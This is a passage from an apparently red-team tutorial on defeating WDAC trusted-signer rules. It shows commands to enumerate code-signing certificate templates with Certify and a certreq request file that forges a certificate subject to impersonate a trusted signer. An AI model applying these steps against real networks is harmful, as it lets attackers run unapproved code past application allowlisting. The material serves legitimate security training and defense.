 The compiled assembly will then have the properties required to be allowed by this rule and it will execute. 

## Trusted Signers

Some organisations build and maintain their own custom [LOB](https://en.wikipedia.org/wiki/Line_of_business) applications which may be signed using an internal certificate authority, such as Active Directory Certificate Services.  Those CAs can be trusted by their WDAC policy in order for them to run their own apps.

WDAC has two levels of certificate policy (three if you count `Root`, but that's not supported).  The first is `Leaf` and the second is `PCA` (short for Private Certificate Authority).  Leaf adds trusted signers at the individual signing certificate level and PCA adds the highest certificate available in the chain (typically one certificate below the root certificate).

List the code signature:

```
Get-AuthenticodeSignature -FilePath 'C:\Program Files\ACME Corp\Helloworld.exe'
```

The relevant WDAC policy can be harder to find because they tend to lose their friendly names. All we see is a signer entry and a TBS hash of the certificate. 

```
<Signer Name="Signer 33" ID="ID_SIGNER_S_0021">
 <CertRoot Type="TBS" Value="FDF695C092757A619ADS18882618818635ASDFA8163A5D2SF18631A0" />
</Signer>
```

TBS or "ToBeSigned" is calculated from the SignerCertificate details of a signed binary. To circumvent this rule we need to obtain the certificate that the policy was generated with, or request our own certificate from the same code signing template.

We can enumerate all the templates on the CA, search for any that are for code signing and check their enrollment rights:

```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /ca:sub-ca.acme.corp\sub-ca
```

If you have desktop access to a domain-joined machine, a certificate can be requested directly through the Certificates snap-in in MMC and then exported in PFX format. ENROLLEE_SUPPLIES_SUBJECT is enabled on the template which allows us to provide an arbitrary subject for the certificate.  If we want to replicate the signed HelloWorld binary, just enter "CN=ACME Corp". 

If you only have command-line access, then the native `certreq` and `certutil` tools can be used instead.

1. First create an .inf file with the following content:
```
[NewRequest]
Subject = "CN=ACME Corp"

KeySpec = 1
KeyLength = 2048
Exportable = TRUE
MachineKeySet = FALSE
SMIME = False
PrivateKeyArchive = FALSE
UserProtected = FALSE
UseExistingKeySet = FALSE
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
ProviderType = 12
RequestType = PKCS10
KeyUsage = 0xa0
HashAlgorithm = SHA256

[RequestAttributes]
CertificateTemplate=RTOCodeSigning
```